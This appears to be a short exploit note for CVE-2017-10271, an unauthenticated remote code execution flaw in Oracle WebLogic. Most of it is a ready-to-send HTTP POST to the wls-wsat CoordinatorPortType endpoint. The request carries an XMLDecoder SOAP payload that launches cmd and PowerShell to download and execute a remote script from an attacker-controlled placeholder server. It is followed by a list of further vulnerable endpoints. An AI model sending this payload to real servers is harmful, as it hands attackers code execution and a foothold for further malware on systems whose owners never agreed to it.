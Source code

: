 CVE-2017-10271 identification and exploitation. Unauthenticated Weblogic RCE.

https://nvd.nist.gov/vuln/detail/CVE-2017-10271

https://www.oracle.com/technetwork/topics/security/cpuoct2017-3236626.html


```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: SOMEHOSTHERE
Content-Length: 1226
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*
User-Agent: python-requests/2.2.1 CPython/2.7.6 Linux/3.19.0-25-generic

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.8.0_151" class="java.beans.XMLDecoder"> 
			<void class="java.lang.ProcessBuilder"> 
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>cmd</string>
				</void>
				<void index = "1"> 
					<string>/c</string> 
				</void>
				<void index = "2">
					<string>powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString(&apos;http://SOMESERVERHERE/GOTPAYLOAD.ps1&apos;)</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext> 
	</soapenv:Header> 
<soapenv:Body/>
</soapenv:Envelope>
```


wls-wsat endpoint list
```
CoordinatorPortType
RegistrationPortTypeRPC
ParticipantPortType
RegistrationRequesterPortType
CoordinatorPortType11
RegistrationPortTypeRPC11
ParticipantPortType11
RegistrationRequesterPortType11
```

